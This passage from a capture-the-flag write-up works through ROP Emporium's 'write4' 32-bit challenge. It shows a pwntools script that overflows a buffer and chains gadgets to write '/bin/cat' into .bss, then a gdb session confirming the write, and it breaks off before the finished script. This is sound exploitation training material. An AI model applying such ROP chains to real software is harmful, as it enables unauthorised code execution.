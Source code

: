 ```
+-------------------------+
|       0x20746163        | # "cat "
+-------------------------+
| mov DWORT PTR [edi],ebp | # 0x08048670
+-------------------------+
```
This is my script so far:

```python
from pwn import *


pop_2 = p32(0x080486da) # pop edi; pop ebp; ret
mov = p32(0x08048670) # mov DWORD PTR [edi],ebp
bss_addr = 0x0804a040

payload = 'A'*44 #the padding I need is 44 bytes, so I have 44 A's at the start.

#first write
payload += pop_2
payload += p32(bss_addr)
payload += p32(0x6e69622f) # "/bin"
payload += mov

#second write
payload += pop_2
payload += p32(bss_addr+0x4) #copy to the next 4 bytes
payload += p32(0x20746163) # "cat "
payload += mov

print payload
```
I copied the output to a file called `payload` and ran it in gdb to see if it works.
```
$ gdb ./write432 -q
Reading symbols from ./write432...(no debugging symbols found)...done.
(gdb) b *0x08048670
Breakpoint 1 at 0x8048670
(gdb) r < payload
Starting program: /home/pwn/ropemporium/write4/32/write432 < payload
write4 by ROP Emporium
32bits

Go ahead and give me the string already!
>
Breakpoint 1, 0x08048670 in usefulGadgets ()
(gdb) c
Continuing.

Breakpoint 1, 0x08048670 in usefulGadgets ()
(gdb) nexti
0x08048672 in usefulGadgets ()
(gdb) x/s 0x0804a040
0x804a040 <stderr@@GLIBC_2.0>:  "/bincat "
(gdb)

```
As you can see, I didn't use peda this time, because the output would be too big to place here.
I set a breakpoint at `0x08048670` which is the `mov DWORD PRT [edi],ebp` gadget.
It looks like the writing worked, because "/bincat" was written to the `.bss` section!
I do need to change it to "/bin/cat" instead though, otherwise it will not work because there is no program called "/bincat", on my machine anyways.
So now I just had to make it write 5 times, to fully write "/bin/cat flag.txt" into memory.
My script now looks like this: